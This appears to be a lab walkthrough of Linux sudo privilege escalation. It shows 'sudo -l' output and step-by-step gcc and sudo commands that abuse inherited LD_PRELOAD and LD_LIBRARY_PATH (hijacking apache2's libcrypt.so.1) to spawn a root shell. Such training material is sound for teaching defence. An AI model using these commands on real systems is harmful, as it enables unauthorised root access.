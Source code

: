 ## Shell Escape Sequences
```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
![alt text](image-2.png)
## Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

`sudo -l`

`LD_PRELOAD` and `LD_LIBRARY_PATH` are both inherited from the user's environment. `LD_PRELOAD` loads a shared object before any others when a program is run. `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /`home/user/tools/sudo/preload.c`:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the `LD_PRELOAD` environment variable to the full path of the new shared object:

`sudo LD_PRELOAD=/tmp/preload.so program-name-here`

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at `/home/user/tools/sudo/library_path.c`:

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the `LD_LIBRARY_PATH` environment variable to `/tmp` (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp apache2`

A root shell should spawn. Exit out of the shell. Try renaming `/tmp/libcrypt.so.1` to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the `library_path.c` code could be changed to make it work.